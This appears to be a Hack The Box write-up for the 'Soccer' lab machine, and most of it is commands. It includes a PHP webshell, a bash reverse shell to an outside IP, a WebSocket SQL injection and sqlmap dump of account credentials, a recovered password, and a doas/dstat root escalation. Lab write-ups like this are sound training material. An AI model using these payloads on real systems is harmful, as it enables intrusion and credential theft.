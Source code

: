 # 🧠 HTB: Soccer

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.194
nmap -p 22,80,9091 -sCV 10.10.11.194
```

### FFUF (vhost fuzzing)
```bash
ffuf -u http://10.10.11.194 -H "Host: FUZZ.soccer.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

### [Feroxbuster](HTTP)
```bash
feroxbuster -u http://soccer.htb
```

---

## ⚙️ Initial Access (Tiny File Manager)

### Default creds
- `admin:admin@123`
- `user:12345`

### PHP Webshell
```php
<?php system($_REQUEST['cmd']); ?>
```

### Upload webshell to `/tiny/uploads/`
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
```

### Reverse Shell
```bash
curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

---

## 👤 Priv Esc to `player`

### Check `/etc/nginx/sites-enabled/soc-player.htb`

Update `/etc/hosts`:
```
10.10.11.194 soccer.htb soc-player.soccer.htb
```

### WebSocket SQLi Injection
Payload:
```json
{"id": "0 OR 1=1-- -"}
```

### Sqlmap Command (WebSocket)
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
--dbms mysql --batch --level 5 --risk 3 --threads 10
```

Dump credentials:
```bash
sqlmap -u ws://soc-player.soccer.htb:9091 \
--data '{"id": "1234"}' \
-D soccer_db -T accounts --dump --threads 10
```

### Login as Player
```bash
su player  # or SSH
# Password: PlayerOftheMatch2022
```

---

## 🔓 Priv Esc to root

### doas Privilege Escalation
```bash
# Check allowed commands
doas -l

# Write plugin
echo -e 'import os\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py

# Trigger plugin
doas /usr/bin/dstat --0xdf
```